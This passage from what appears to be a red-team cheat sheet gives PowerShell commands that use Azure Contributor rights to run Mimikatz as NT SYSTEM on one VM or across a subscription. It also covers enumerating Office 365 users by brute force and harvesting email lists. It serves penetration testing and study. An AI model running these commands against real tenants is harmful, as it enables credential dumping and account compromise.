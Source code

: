 ## Azure VM - Execute command as NT SYSTEM with Contributor right

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name

ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

Against the whole subscription using MicroBurst.ps1

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

## Office365 - Enumerating Users

NOTE: By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Bruteforce user enum : https://bitbucket.org/grimhacker/office365userenum/src/master/ based on the endpoint https://login.microsoftonline.com/getuserrealm.srf?login=firstname.lastname@domain.com&xml=1
    ```powershell
    RealmInfo Success="true">
    <State>3</State>
    <UserState>2</UserState>
    <Login>firstname.lastname@domain.com</Login>
    <NameSpaceType>Federated</NameSpaceType>
    <DomainName>domain.com</DomainName>
    <FederationGlobalVersion>-1</FederationGlobalVersion>
    <AuthURL>
    https://fws.domain.com/o365/visfed/intrdomain/se/?username=firstname.lastname%40domain.com&wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline&wctx=
    </AuthURL>
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon


## References

* [An introduction to penetration testing Azure - Graceful Security](https://www.gracefulsecurity.com/an-introduction-to-penetration-testing-azure/)
* [Running POwershell scripts on Azure VM - Netspi](https://blog.netspi.com/running-powershell-scripts-on-azure-vms/)
* [Attacking Azure Cloud shell - Netspi](https://blog.netspi.com/attacking-azure-cloud-shell/)
* [Maintaining Azure Persistence via automation accounts - Netspi](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
* [Detecting an attacks on active directory with Azure - Smartspate](https://www.smartspate.com/detecting-an-attacks-on-active-directory-with-azure/)
* [Azure AD Overview](https://www.youtube.com/watch?v=l_pnNpdxj20) 
* [Windows Azure Active Directory in plain English](https://www.youtube.com/watch?v=IcSATObaQZE)
* [Building Free Active Directory Lab in Azure - @kamran.bilgrami](https://medium.com/@kamran.bilgrami/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f) 
* [Attacking Azure/Azure AD and introducing Powerzure - SpecterOps](https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a)
* [Azure AD connect for RedTeam - @xpnsec](https://blog.xpnsec.com/azuread-connect-for-redteam/)